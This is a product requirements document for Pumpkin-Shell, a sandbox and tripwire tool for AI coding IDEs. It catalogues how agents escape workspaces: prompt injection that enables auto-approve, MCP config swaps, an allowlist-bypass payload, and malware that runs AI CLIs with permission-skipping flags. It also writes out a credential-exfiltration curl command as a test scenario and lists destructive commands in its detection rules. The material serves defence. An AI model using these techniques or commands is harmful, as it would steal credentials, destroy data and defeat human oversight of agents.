

# Pumpkin-Shell v1.0 PRD

**A sandbox and tripwire system for AI-powered IDEs on Linux and Windows.**

| | |
|---|---|
| Status | Canonical PRD. Supersedes `prd v1.md` (raw history, kept for reference) |
| Platforms | Linux (x86_64, ARM64), Windows 10/11 (x64, ARM64). macOS out of scope |
| IDEs | Kiro first, then VS Code, Cursor, Windsurf (all Code-OSS based) |
| Core language | Rust |
| Repo | https://github.com/mazi3012/pumpkin-shell |

Claims marked `*` come from prior knowledge and must be verified before they are used in public docs. Decisions and open questions live in [DECISIONS.md](DECISIONS.md).

---

## 0. Summary

Pumpkin-Shell launches an IDE (Kiro, VS Code, Cursor or Windsurf) inside an OS-level sandbox. The sandbox covers the whole IDE: renderer, extension host, agent, terminals, MCP servers and hooks. Pumpkin-Shell does four things:

1. **Removes capabilities.** The IDE gets no host credentials, no unfiltered network, and no unreviewed writes to files that later run on the host.
2. **Guards package installs.** A local npm/PyPI mirror applies a version cooldown, malware lookups, typosquat checks and hash verification.
3. **Detects and notifies.** Tripwires, process and connection auditing, and a review step for changed files flag suspicious behavior and can pause the IDE.
4. **Records evidence.** Every decision goes into a hash-chained, signed log stored outside the sandbox.

**Pitch:** use your IDE agent in full auto-approve mode without exposing your machine. A CLI agent started from the IDE's terminal is also covered, because it inherits the sandbox.

**Why the whole IDE:** in Code-OSS IDEs the agent's file-write tool and its MCP servers run in the extension host, which the IDE starts. Sandboxing only the terminal ("split mode") leaves those actions outside the sandbox, so they could only be detected, not blocked.

## 1. How agents break out of workspaces (research)

| # | Technique | Real case | Design consequence |
|---|---|---|---|
| 1 | Agent edits its own config to enable auto-approve | Copilot CVE-2025-53773: injected text writes `"chat.tools.autoApprove": true` to `.vscode/settings.json`, then runs code. The researcher also names `tasks.json`, rogue MCP servers and other agents' config ([Embrace The Red](https://embracethered.com/blog/posts/2025/github-copilot-remote-code-execution-via-prompt-injection/)) | IDE and agent config is staged for review, never written directly |
| 2 | Kiro MCP config | `.kiro/settings/mcp.json` and `~/.kiro/settings/mcp.json` accept `autoApprove: ["*"]` and hot-reload on save ([Kiro docs](https://kiro.dev/docs/mcp/configuration/)) | One file write starts an auto-approved server |
| 3 | Kiro hooks | `.kiro/hooks/*.json` runs shell commands on IDE events; the agent can create hooks from chat; Kiro CLI also loads `~/.kiro/hooks/` ([Kiro docs](https://kiro.dev/docs/hooks/)) | Hooks are a persistence channel across sessions |
| 4 | Cursor MCP config swap | CurXecute CVE-2025-54135, MCPoison CVE-2025-54136* | MCP config is scanned and pinned |
| 5 | Allowlist and path-prefix bypasses | Claude Code CVE-2025-54795 (`echo "\"; CMD; echo \""`) and CVE-2025-54794 (`/proj_evil` passes a `/proj` prefix check) ([Cymulate](https://cymulate.com/blog/cve-2025-547954-54795-claude-inverseprompt/)) | String and path checks inside the agent fail. Enforce at the OS level |
| 6 | Malware drives AI tools | Nx "s1ngularity", Aug 2025: npm postinstall ran AI CLIs with `--dangerously-skip-permissions` / `--yolo` / `--trust-all-tools`, stole tokens via `gh`, appended `sudo shutdown -h 0` to `~/.bashrc`; often triggered via the Nx VS Code extension ([Wiz](https://www.wiz.io/blog/s1ngularity-supply-chain-attack)). Bad versions were live about 4 hours ([advisory](https://github.com/nrwl/nx/security/advisories/GHSA-cxm3-wv7p-598c)) | Install scripts off, no tokens in reach, version cooldown (would have skipped these versions entirely) |
| 7 | Compromised popular packages | chalk/debug, Shai-Hulud worms (2025)* | Package age is not enough; a cooldown on new versions is required |
| 8 | Hidden instructions | "Rules File Backdoor": invisible Unicode in rules files* | Scan steering and rules files for hidden characters |
| 9 | Files that execute later | `.git/hooks`, `core.fsmonitor` / `core.hooksPath`, `.husky`, `.envrc`, `.yarnrc.yml yarnPath`, `tasks.json` `runOn: folderOpen`, CI workflows, `conftest.py` | The boundary must include files written now that run later on the host |
| 10 | Windows Job Object escape | Processes created via WMI `Win32_Process.Create`, Task Scheduler or out-of-process COM are spawned by system services and land outside the caller's job* | Job Objects are not a boundary. A separate user account is |
| 11 | Network side channels | DNS, unsetting proxy vars, raw sockets, `169.254.169.254`, broad allowlists such as Kiro's documented `*.amazonaws.com` wildcard, which permits upload to any S3 bucket ([Kiro firewall docs](https://kiro.dev/docs/privacy-and-security/firewalls/)) | Block all non-proxy traffic. Allow exact hostnames only |
| 12 | Tamperable IDE install | Found on the dev machine: 67 files in `/usr/share/kiro`, including the main `kiro` binary, are world-writable (zip-extracted install). Any process running as any user can trojan the IDE | `doctor` checks IDE install permissions; the sandbox mounts the IDE read-only |

## 2. Users and pain points

- **Solo or startup developer** using Kiro or Cursor in auto-approve mode. Afraid of `rm -rf`, leaked `.env` files, stolen tokens. Uninstalls the tool the first time `npm install` breaks.
- **DevOps engineer.** The IDE sits next to `kubectl`, `terraform`, `~/.aws`, `~/.kube`, and the AI writes CI workflows.
- **Security lead.** Needs evidence, a shared team policy and a CI check.

**Adoption rule:** every block message names the policy line that would allow it. Every staged write can be approved with one action.

## 3. Threat model

- **Attackers:** A1 prompt-injected agent (repo content, web, issues, MCP output); A2 malicious dependency or extension; A3 well-meaning agent causing damage; A4 malware driving AI tools.
- **Assets:** SSH, cloud, git and npm credentials; source code; integrity of files the host executes later; production systems; the Pumpkin-Shell log.
- **Trust boundary:** everything inside the sandbox is untrusted. The Pumpkin-Shell host process (and on Windows its service) is trusted.
- **Out of scope:** kernel/bwrap/Windows zero-days; malware already on the host; data sent to domains the user allowed; quality of AI-written code; macOS; standalone CLI-agent wrapping.

## 4. Design principles

1. **Remove capabilities instead of guessing intent.** Argument matching only raises alerts; it is never the enforcement boundary.
2. **All authority on the host:** policy, signing key, log, proxy, brokers, auditing.
3. **Fail closed, out loud.** Proxy dies → no network. Monitor dies → session killed + CRITICAL alert.
4. **Low friction:** cooldowns hide versions instead of breaking installs; unknown domains get an "ask" prompt; protected writes are staged instead of failing.
5. **Honest claims:** "N/N escape tests pass on corpus vX", never "0% bypass".

## 5. Scope

**In v1:**
- Linux: Ubuntu 24.04+ (incl. Mint 22+), Debian 13+, Fedora 40+, Arch; x86_64 and ARM64 (matches [Kiro's supported list](https://kiro.dev/docs/getting-started/installation/))
- Windows 10/11, x64 and ARM64
- IDEs: Kiro, then VS Code, Cursor, Windsurf
- `pumpkin-shell scan` (also in CI)
- npm, pnpm, yarn, bun (npm registry); pip, uv, poetry (PyPI)

**Not in v1:** macOS; standalone CLI-agent commands; dev containers / Docker inside the sandbox; IDE auto-update inside the sandbox; TLS inspection; credential substitution in the proxy; cargo and Go registries.

## 6. Architecture

The shared Rust core holds the proxy, mirror, detection engine, log, policy, brokers, scan, review and the Code-OSS IDE adapter. The `SandboxBackend` trait has a Linux and a Windows implementation.

### 6.1 Linux backend (no root at runtime)

- **Isolation:** bubblewrap `--unshare-all --die-with-parent --new-session`, fresh `/proc`. Nested user namespaces allowed so the IDE's Chromium sandbox keeps working; never `--no-sandbox`. (The setuid `chrome-sandbox` helper cannot work under `no_new_privs`; Chromium falls back to its namespace sandbox.) Landlock as a second layer. seccomp blocks `TIOCSTI`.
- **Filesystem:** root read-only (including the IDE install), repo read-write, a persistent per-IDE home. Not passed in: `$SSH_AUTH_SOCK`, D-Bus session bus, `docker.sock`, `/run/user/$UID`.
- **Display:** Wayland socket only by default. On X11 sessions, direct `$DISPLAY` access lets any app log keystrokes and inject input into other windows, so X11 needs either a nested X server (Xpra/Xephyr, to be evaluated in Task 2) or an explicit opt-in with a warning.
- **Network:** loopback only, plus a relay to the host proxy's Unix socket.
- **Staged writes:** existing protected paths are bind-mounted from a staging copy; protected paths that don't exist yet are caught by the host inotify watcher and quarantined.
- **Auditing:** seccomp user-notification supervisor on the host for `execve` and `connect`.
- **Ubuntu 24.04+:** AppArmor may restrict unprivileged user namespaces (`kernel.apparmor_restrict_unprivileged_userns`). `doctor` detects it and explains or installs the profile. (Linux Mint 22.3 ships with the restriction off.)

### 6.2 Windows backend (admin once, at install)

- **Sandbox user:** installer creates local non-admin user `pks-sandbox` and a signed `Pumpkin-Shell Service` (LocalSystem). The user's own profile is closed to other users by default, hiding `.ssh`, `.aws`, Credential Manager, DPAPI data and the OpenSSH agent pipe.
- **Repo access:** at session start the service grants `pks-sandbox` modify rights on the repo, revokes them at session end, resets file ownership to the user, and sets `safe.directory` in the sandbox user's gitconfig (otherwise Git for Windows reports "dubious ownership").
- **Protected paths:** `.git/hooks`, `.kiro/hooks`, `.kiro/settings` and similar get a deny-write ACE for `pks-sandbox`, which it cannot remove. Changes go through `allow-write` or review.
- **Network:** WFP filters keyed to the `pks-sandbox` SID allow outbound only to the loopback proxy port; everything else (including DNS) is blocked and raises NET-DIRECT-CONNECT.
- **Process lifetime:** Job Object with kill-on-close for the normal tree. At session end the service also kills every `pks-sandbox` process and removes scheduled tasks, Run keys and startup items it created (catches WMI/COM/Task Scheduler escapes).
- **Auditing:** ETW `Microsoft-Windows-Kernel-Process` (process creation with command lines) and WFP audit events.
- **Brokers:** the sandbox user's `http(s)` and `kiro://` handlers forward to the host over a named pipe restricted to the service and sandbox user. OAuth callbacks reach the IDE over loopback (inbound only).
- **Known risk:** shared desktop. The sandboxed IDE can read the clipboard, capture the screen and install low-level keyboard hooks. Separate-desktop or VM mode is v2. Documented publicly.

## 7. Functional requirements

### FR-NET: Egress
- CONNECT allowlist of exact `host:port`. Wildcards over shared cloud domains (`*.amazonaws.com`, `*.googleapis.com`, `*.blob.core.windows.net`) are rejected.
- Proxy resolves DNS itself and refuses private, link-local and metadata addresses (blocks DNS rebinding and LAN SSRF).
- Unknown domains use **ask**: connection held 20 s while a notification offers allow / always / deny. Headless sessions use deny.
- Optional relays to host services (`host_ports = [5432]`), logged as NOTICE.
- Per-host upload byte counters.

### FR-REG: Registry guard
- Local mirror over plain HTTP inside the sandbox, rustls upstream. Direct connections to real registry hosts are blocked.
- **72-hour version cooldown:** newer versions are removed from npm packuments and the PyPI index, so installs resolve the previous version. A lockfile pinned to a too-new version is blocked with an explanation.
- Packages whose first release is under 30 days old are blocked. A 404 is logged as a hallucinated package.
- OSV.dev `MAL-` lookups, cached. If OSV is unreachable, only packages ≥30 days old are allowed.
- Typosquat check on normalized names (PEP 503, npm scopes): distance 1 for names ≥5 chars, distance 2 for ≥10. WARN by default; BLOCK when also young or low-download.
- Tarballs/wheels verified against `dist.integrity` / sha256 before serving.
- `npm_config_ignore_scripts=true` by default; packages with `hasInstallScript` listed in the session summary.

### FR-WS: Workspace integrity
- **Protected (staged for review):** `.git/hooks`, `.git/config`, the `core.hooksPath` target; `.envrc`, `.yarnrc.yml`, `.npmrc`; `.vscode/`, `.cursor/`, `.windsurf/`, `.kiro/settings`, `.kiro/hooks`, `.mcp.json`; `pumpkin-shell.toml`; the IDE's user-level `settings.json` and `mcp.json` in its sandboxed home.
- **Watched (editable, always shown in review):** `.github/workflows`, `package.json` scripts and git/URL deps, `Makefile`, `Dockerfile`, `.devcontainer`, `conftest.py`, `setup.py`, `.pre-commit-config.yaml`, `.kiro/steering`, `AGENTS.md`, `.cursorrules`; on Windows also `*.lnk`, `desktop.ini`, NTFS alternate data streams.
- **Snapshot before launch:** working tree including untracked non-ignored files, committed via a temporary index and bundled to Pumpkin-Shell's data dir. `pumpkin-shell restore <sid>` recovers it.
- **Decoys:** fake `id_ed25519`, AWS credentials and `gh` `hosts.yml` with unique markers in the sandboxed home.

### FR-DET: Detection rules

| Rule | Severity / action |
|---|---|
| REG-MALWARE, REG-INTEGRITY | CRITICAL; block |
| REG-TOO-NEW | HIGH; block |
| REG-COOLDOWN | INFO; newer version hidden |
| REG-HALLUCINATED, REG-TYPOSQUAT | WARN |
| REG-DIRECT-BYPASS | HIGH; block |
| NET-UNKNOWN-DOMAIN | WARN; ask |
| NET-PRIVATE-IP | HIGH; block |
| NET-DIRECT-CONNECT | WARN, with fix hint |
| NET-LARGE-UPLOAD (>10 MB to a non-model-API host) | WARN |
| NET-DECOY-EGRESS | CRITICAL |
| FS-DECOY-READ | HIGH |
| WS-PROTECTED-WRITE | HIGH; staged |
| WS-AUTOAPPROVE (`chat.tools.autoApprove`, MCP `autoApprove: ["*"]`, new MCP server, new Kiro command hook) | CRITICAL; staged, pause |
| WS-HIDDEN-UNICODE (tag chars U+E0000–E007F, bidi controls, zero-width) | HIGH |
| WS-WATCHED-CHANGE | HIGH; shown in review |
| WS-MCP-SERVER (static `scan`: an MCP server is configured; inventory only) | NOTICE |
| WS-KIRO-HOOK (static `scan`: a Kiro hook runs a shell command) | WARN |
| WS-FOLDER-OPEN-TASK (`.vscode/tasks.json` task with `runOn: folderOpen`) | HIGH |
| WS-YARNPATH (`.yarnrc.yml` sets `yarnPath`) | HIGH |
| WS-GIT-HOOK (`core.hooksPath`, `core.fsmonitor` program, config `include`, or an executable file in `.git/hooks`) | HIGH |
| WS-ADS (Windows: NTFS alternate data stream on a file or directory) | HIGH |
| WS-SECRET-WRITTEN | HIGH |
| WS-MASS-DELETE (>50 files or >20% of tracked files) | HIGH; restore hint |
| EXEC-AGENT-YOLO (AI CLI with skip-permission flags from a non-interactive parent) | CRITICAL |
| EXEC-DESTRUCTIVE (`terraform apply -auto-approve`/`destroy`, `kubectl delete`, `aws … delete-*`, `git push --force`, `DROP`/`TRUNCATE`) | HIGH |
| EXEC-RECON (credential searches, trufflehog) | HIGH |
| WIN-PERSIST (schtasks, Run keys, startup folder, WMI process create) | HIGH; cleaned at exit |
| SYS-IDE-TAMPERABLE (IDE install files writable by non-root/non-admin) | HIGH; reported by `doctor` and at launch |
| SBX-MONITOR-LOST | CRITICAL; session killed |
| POL-UNTRUSTED | WARN; loosening ignored |

### FR-NOTIFY: Notifications and response
- INFO/NOTICE → log and session summary.
- WARN → `pumpkin-shell watch` (tray or terminal panel).
- HIGH → desktop notification (`notify-send` / Windows toast).
- CRITICAL → also webhook (Slack, Discord, JSON) and the configured action; default **pause** (SIGSTOP on Linux, suspend job processes on Windows) until `resume` or `kill`.
- Deduplication by rule + target; at most one desktop notification per 10 s.
- `pumpkin-shell review`: blocks, staged writes to approve/reject, watched-file diff, quarantined files, restore command.

### FR-POL: Policy
- User policy: `~/.config/pumpkin-shell/policy.toml` (`%APPDATA%\Pumpkin-Shell\` on Windows), never visible inside the sandbox.
- Repo `pumpkin-shell.toml` can only tighten. `trust` pins its hash.
- IDE profiles: paths, exact domains (from vendor docs, confirmed in monitor mode), env keys.
- `monitor` mode logs instead of blocking; `policy suggest` turns a monitor session into allow rules.

### FR-RCPT: Signed log
- JSONL: `v`, `session`, `seq`, `ts`, `prev` hash, `policy_hash`, `layer`, `target`, `rule`, `verdict`, ed25519 `sig`.
- Key stored outside the sandbox. Signed checkpoint at session end detects truncation. `log verify` checks chain, signatures, checkpoint.

### CLI
`doctor`, `init`, `ide <kiro|code|cursor|windsurf> [path]`, `ide import <ide>` (settings + extensions, never tokens), `watch`, `allow`, `allow-write`, `resume`, `kill`, `review`, `restore`, `scan [--ci]`, `trust`, `policy suggest`, `log [verify]`, `test`.

## 8. Acceptance scenarios (each on both OSes)

1. **First run:** Ubuntu AppArmor restriction, or Windows without the service. `doctor` gives a one-step fix.
2. **Kiro sign-in:** browser opens on the host, OAuth callback reaches the sandboxed Kiro, login persists in the sandboxed home.
3. **README injection enables auto-approve:** write staged, CRITICAL alert, IDE paused.
4. **Agent creates a test-on-save hook:** works in-session; user approves it in review.
5. **Dependency published 2 h ago with a postinstall script (nx pattern):** version hidden, previous version installed, no script runs.
6. **`curl -d @~/.aws/credentials https://webhook.site`:** decoy read (HIGH); domain held then denied.
7. **Local Postgres on host port 5432:** NET-DIRECT-CONNECT with hint `host_ports = [5432]`.
8. **`rm -rf src/`:** WS-MASS-DELETE; `restore` recovers.
9. **`terraform destroy` in the IDE terminal:** fails for lack of credentials; HIGH alert.
10. **Windows `schtasks /create` and WMI process-create:** flagged, still network-blocked, removed at session end.
11. **PR adds hidden Unicode to `.kiro/steering`:** `scan --ci` fails the GitHub Actions run.
12. **`git push` from the IDE:** broker prompts with remote and branch.

## 9. Non-functional requirements

- **Linux:** no root at runtime. Kernel 5.13+ (6.7+ recommended), bwrap 0.8+.
- **Windows:** admin once at install; none per session.
- **Performance:** launch overhead <1 s; mirror <+15% latency warm; auditing <5% on `npm test`; IDE feels native.
- **Privacy / supply chain:** no telemetry; `cargo-deny`, `cargo-audit`, `cargo vet` in CI; signed releases (cosign + SLSA on Linux; Authenticode MSI and service on Windows); no `curl | sh` installer.

## 10. Success metrics

- 100% of the escape corpus passes on both OSes.
- ≤1 false-positive HIGH per 8-hour dogfood session.
- Top 50 npm and PyPI projects install with no policy edits.
- Install to first protected Kiro session in <5 minutes.

## 11. Known risks (documented publicly)

- Data sent to allowed domains (model API, GitHub).
- Kernel, bwrap or Windows privilege-escalation bugs.
- Code the agent writes that the user later runs outside Pumpkin-Shell.
- Windows shared desktop: clipboard, screen, keyboard hooks. Same on Linux X11 without a nested X server.
- Same-user signatures prove tampering by the sandbox only, not by the user or by host malware.
- Exec argument alerts can be evaded; the real control is that credentials are absent.

## 12. Build plan

Linux first, then Windows. Tasks 2 and 3 are proofs of concept that the IDE runs at all inside each sandbox; they come first so the design can change before anything is built on top.

| # | Task | Demo / exit criteria |
|---|---|---|
| 1 | Cargo workspace with `SandboxBackend` trait; CI on Linux + Windows runners (clippy, fmt, cargo-deny, cargo-audit); `doctor` (bwrap, userns, AppArmor, Landlock, seccomp, IDE install permissions; on Windows: service, sandbox user, WFP) | `pumpkin-shell doctor` on both OSes |
| 2 | **Linux PoC:** Kiro in bwrap with display (Wayland, and X11 via nested server or opt-in), GPU, nested userns, stub proxy. Record every breakage and the minimum permission that fixes it | Kiro edits a file; `~/.ssh` unreadable from its terminal |
| 3 | **Windows PoC:** Kiro as `pks-sandbox` in a Job Object with WFP filters by SID. Verify WMI/schtasks-spawned processes stay network-blocked and cleanup works | Kiro runs; `C:\Users\<you>\.ssh` denied; direct `curl` fails |
| 4 | `pumpkin-shell scan` → **v0.1**: hidden Unicode, `autoApprove`, MCP servers, Kiro command hooks, `folderOpen` tasks, `yarnPath`, ADS; `--ci` exit code | Poisoned fixture repo yields expected findings |
| 5 | Policy (tighten-only merge, `trust`) and signed log (ed25519 hash chain, checkpoint, `log verify`) | Editing a log line fails `log verify` |
| 6 | Linux `ide` backend: read-only root, rw repo, persistent IDE home, filtered env, no network | `pumpkin-shell ide kiro .` |
| 7 | Egress proxy + Unix-socket relay; exact-host allowlist; private-IP block; ask mode; byte counters | Kiro chat works; unknown domain prompts |
| 8 | Workspace integrity on Linux: staged writes, quarantine, snapshot/restore, decoys | Scenarios 3, 4, 8 |
| 9 | Notifications and review: severity engine, dedup, `watch`, `notify-send`, webhook, pause, review/approve | Decoy read → desktop alert; CRITICAL pauses Kiro |
| 10 | Brokers: URL open, OAuth callback relay, git push approval | Scenarios 2, 12 |
| 11 | Code-OSS adapter, `ide import`, profiles for Kiro, VS Code, Cursor, Windsurf → **Linux v0.5** | All four IDEs run under Pumpkin-Shell |
| 12 | npm + PyPI mirror: cooldown, age, OSV, typosquat, integrity, ignore-scripts | Scenario 5; FP benchmark on top 1,000 packages |
| 13 | Linux exec/connect auditing (seccomp supervisor) and EXEC / NET-DIRECT-CONNECT rules | Scenarios 7, 9; monitor death kills session |
| 14 | Windows enforcement: signed service + MSI, sandbox user, repo ACL grant/revoke, ownership reset, `safe.directory`, deny-ACL staging, WFP, Job Object, persistence cleanup | `pumpkin-shell ide kiro .` on Windows; scenario 10 |
| 15 | Windows parity: proxy settings, named-pipe brokers, toasts, ETW, WFP audit, `ReadDirectoryChangesW`, pause | All 12 scenarios on Windows |
| 16 | **v1.0** release: signed deb/rpm and MSI, AppArmor guidance, threat model, published escape corpus | Install → protected Kiro session in <5 min on Ubuntu 24.04 and Windows 11 |

**Estimate (one engineer):** v0.1 week 1; Linux v0.5 about week 8; v1.0 with Windows about week 15.
